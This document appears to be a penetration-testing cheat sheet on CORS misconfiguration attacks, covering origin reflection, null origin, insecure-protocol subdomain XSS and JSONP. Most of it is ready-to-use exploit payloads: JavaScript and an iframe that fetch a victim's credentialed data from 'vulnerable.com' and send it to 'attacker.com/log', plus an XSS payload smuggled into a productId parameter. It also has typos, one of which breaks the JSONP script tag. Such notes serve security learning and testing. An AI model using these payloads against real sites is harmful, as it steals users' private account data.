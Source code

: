 ```yaml
---
title: Cross-Origin Resource Sharing (CORS) Attack
desc: 
tags: [Burp, CORS, Web]
alts: []
render_with_liquid: false
---
```


## 1. Origin Reflection

1. **Change Origin Value of Request Header**

    ```sh
    Origin: https://attacker.com
    ```

    ```sh
    Origin: https://vulnerable.com.attacker.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    It's reflected the previous reqeust in the response header, you can exploit it.

    ```sh
    Access-Control-Allow-Origin: https://attacker.com
    ```

    ```sh
    Access-Control-Allow-Origin: https://vulnerable.com.attacker.com
    Access-Control-Allow-Credentials: true
    ```

3. **Exploit with Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit" or "https://vulnerable.com.attacker.com/exploit".  
    Add the JavaScript code in the web page.  

    It shows the users' sensitive information of the target website in your server's log.

    ```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://vulnerable.com/details', true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location = '/log?key=' + this.responseText;
        }
    </script>
    ```

<br />

## 2. Null origin

1. **Send Request with Origin: null**

    ```sh
    Origin: null
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true
    ```

3. **Add the iframe to Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit".

    ```html
    <iframe
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('GET', 'https://vulnerable.com/details', true);
            req.withCredentials = true;
            req.send();
            
            function reqListener() {
                location = 'https://attacker.com/log?key=' + encodeURIComponent(this.responseText);
            }
            </script>"
    ></iframe>
    ```

<br />

## 3. Insecure Protocol

1. **Send Request with Abbused Origin**

    ```sh
    Origin: http://subdomain.vulnerable.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: http://subdomain.vulnerable.com
    Access-Control-Allow-Credentials: true
    ```

3. **Add the JavaScript Code to Your Malicious Web Page**

    It's hosted as "https://attacker.com/exploit"

    ```html
    <script>
        document.location="http://subdomain.vulnerable.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable.com/details',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker.com/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
    ```

<br />

## 4. JSONP (Json with Padding)

```html
<script>
	var userinfo = function (data) {
		alert(JSON.stringify(data));
	}
</script>
<script src="https://vulnerable.com/example.php?value=userinfo" type="text/javascriipt"></script>
```